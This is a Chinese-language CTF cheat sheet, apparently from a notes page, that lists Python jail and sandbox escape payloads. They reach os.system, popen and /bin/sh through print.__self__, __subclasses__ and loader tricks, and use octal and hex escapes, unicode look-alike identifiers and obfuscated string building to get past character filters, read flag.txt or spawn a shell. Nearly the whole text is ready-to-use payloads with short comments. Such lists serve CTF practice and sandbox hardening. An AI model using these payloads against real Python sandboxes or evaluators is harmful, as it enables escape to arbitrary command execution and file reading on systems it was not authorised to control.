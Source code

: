 ```python
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cmp'[0]+'ai'[0]+'cot'[2]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")
```
- print相关(无需eval)
  - `print.__self__.__import__("os").system("cmd")`。绕过滤版本：`print.__self__.getattr(print.__self__.getattr(print.__self__, print.__self__.chr(95) + print.__self__.chr(95) + print.__self__.chr(105) + print.__self__.chr(109) + print.__self__.chr(112) + print.__self__.chr(111) + print.__self__.chr(114) + print.__self__.chr(116) + print.__self__.chr(95) + print.__self__.chr(95))(print.__self__.chr(111) + print.__self__.chr(115)), print.__self__.chr(115) + print.__self__.chr(121) + print.__self__.chr(115) + print.__self__.chr(116) + print.__self__.chr(101) + print.__self__.chr(109))("cmd")`
  - 尝试读函数源码
  ```py
  print(<func>.__code__) #获取文件名，func为文件内的函数名
  print(<fund>.__code__.co_names) #获取函数内调用的函数
  print(<func>.__code__.co_code) #函数的字节码
  print(<func>.__code__.co_consts) #函数内直接定义的常量
  print(<func>.__code__.co_varnames) #函数内定义的变量
  #https://github.com/HeroCTF/HeroCTF_v5/tree/main/Misc/pygulag ，内含字节码反编译脚本
  ```
  - `print.__self__.__loader__.load_module('o''s').spawnv(0, "/bin/sh", ["i"])`
  - `print(print.__self__.__loader__().load_module('o' + 's').spawnvp(print.__self__.__loader__().load_module('o' + 's').P_WAIT, "/bin/sh", ["/bin/sh"]))`
  - `print(print.__self__.__loader__.load_module('bu''iltins').getattr(print.__self__.__loader__.load_module('o''s'),'sy''stem')('sh'))`
  - `print.__self__.setattr(print.__self__.credits, "_Printer__filenames", ["filename"]),print.__self__.credits()`,打印文件内容
  - `print(globals.__self__.__import__("os").system("cmd"))`
  - `print(().__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cmd').read())`
  - `print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('cmd'))`
  - `print("".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('sh'))`
  - `print.__self__.__loader__.load_module('o''s').spawnl(0, "/bin/sh", "a")`
  - `print(().__class__.__mro__[1].__subclasses__()[84]().load_module('o'+'s').__dict__['sy'+'stem']('cmd'))`
  - `print([x for x in ().__class__.__base__.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cmd'))`
  - `print(print.__self__.__loader__().load_module('o' + 's').__dict__['pop'+'en']('cmd').read())`
  - `print.__self__.__dict__["__import__"]("os").system("cmd")`
- 关于`eval(payload)`中payload的控制
  - 不使用26个字母中的前13个字母（使用10进制ascii绕过）：`exec("pr\x69nt(op\x65n('\x66'+\x63\x68r(108)+'\x61\x67.txt').r\x65\x61\x64())")`
  - 不使用26个字母中的后13个字母（使用8进制）：`exec("\160\162i\156\164(\157\160e\156('flag.\164\170\164').\162ead())")`,`exec("\160\162\151\156\164\050\157\160\145\156\050\047\146\154\141\147\056\164\170\164\047\051\056\162\145\141\144\050\051\051")`，`\145\166\141\154\50\151\156\160\165\164\50\51\51`(`eval(input)`)
  - 不使用任何数字或括号：`[[help['cat flag.txt'] for help.__class__.__getitem__ in [help['os'].system]] for help.__class__.__getitem__ in [__import__]]`(执行命令)，`[f"{help}" for help.__class__.__str__ in [breakpoint]]`(开启pdb)
  - 使用斜体:`𝘦𝘷𝘢𝘭(𝘪𝘯𝘱𝘶𝘵())`,`𝘦𝘹𝘦𝘤("𝘢=𝘤𝘩𝘳;𝘣=𝘰𝘳𝘥;𝘤=𝘣('൬');𝘥=𝘢(𝘤-𝘣('೸'));𝘱𝘳𝘪𝘯𝘵(𝘰𝘱𝘦𝘯(𝘢(𝘤-𝘣('ആ'))+𝘢(𝘤-𝘣('ഀ'))+𝘢(𝘤-𝘣('ഋ'))+𝘢(𝘤-𝘣('അ'))+'.'+𝘥+𝘢(𝘤-𝘣('೴'))+𝘥).𝘳𝘦𝘢𝘥())")`
  - 不使用`__`:`()._＿class_＿._＿bases_＿[0]._＿subclasses_＿()[124].get_data('.','flag.txt')`(第二个`＿`是unicode里面的下划线，python自动标准化成`_`)
  - 使用特殊字体：`ｂｒｅａｋｐｏｉｎｔ()`（开启pdb）
- 当空格被过滤时，可以用tab键代替：`import    os`
- `[module for module in ().__class__.__bases__[0].__subclasses__() if 'Import' in module.__name__][0].load_module('os').system('cmd')`,通过`class '_frozen_importlib.BuiltinImporter'>`模块导入os执行命令
- `[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if "'os." in str(x) ][0]['system']('cmd')`
- `[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("cmd")`
- `().__class__.__base__.__subclasses__()[141].__init__.__globals__["system"]("sh")`
- `().__class__.__bases__[0].__subclasses__()[107]().load_module("os").system("cmd")`